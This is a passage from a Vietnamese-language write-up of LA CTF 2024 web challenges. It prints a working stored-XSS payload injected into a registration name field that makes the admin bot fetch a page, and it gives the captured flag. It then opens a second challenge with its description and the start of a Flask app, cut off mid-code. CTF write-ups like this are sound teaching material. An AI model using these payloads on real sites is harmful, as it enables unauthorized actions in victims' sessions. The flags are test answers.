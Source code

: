 ```js
  })();
}
```

Do đó, có khả năng chèn payload vào trường `name` khi đăng ký người dùng và gửi liên kết `/finder` chứa payload đến admin

payload:
```
username=abc81&password=abc81&name=<img src=x onerror="fetch('/finder', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'username=abc81'})">&deepestDarkestSecret=abc81
```

Gửi link sau cho bot: https://new-housing-portal.chall.lac.tf/finder/?q=abc81

![image](https://hackmd.io/_uploads/HJht9Og36.png)

flag: `lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`

# web la housing portal - 344 solves/ 265 points
## Description
```
Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.
Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

Link: la-housing.chall.lac.tf
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/lactf2024/serv.zip)

## Solution
Source code:
![image](https://hackmd.io/_uploads/r1t5vUx26.png)

Giao diện

![image](https://hackmd.io/_uploads/S1Jy_Len6.png)

Phân tích `app.py`:
```py
import sqlite3
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
```